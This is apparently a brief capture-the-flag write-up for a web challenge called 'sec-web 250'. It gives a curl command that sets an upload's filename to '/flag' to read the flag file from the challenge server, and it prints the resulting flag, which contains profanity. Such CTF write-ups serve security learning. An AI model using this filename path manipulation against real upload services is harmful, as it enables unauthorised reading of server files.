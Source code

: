 # sec-web 250
#### yes another one, go http://195.154.231.70:5341

[sec-web.zip](https://github.com/gamer-1478/unreal-ctf/blob/main/sec.zip)

found a writeup for this challenge - https://iwanflagz.github.io/RaRCTF-2021-writeups/web/secureuploader.html

following it, my sol was

```bash
curl -v -L -F "file=@shop;filename=/flag" http://195.154.231.70:5341/upload
```
shop can be changed for any file avaiable on your desktop. 

which gives the flag 
``` 
Flag - unreal{m07h3rfuck1n6_j01n}
``` 

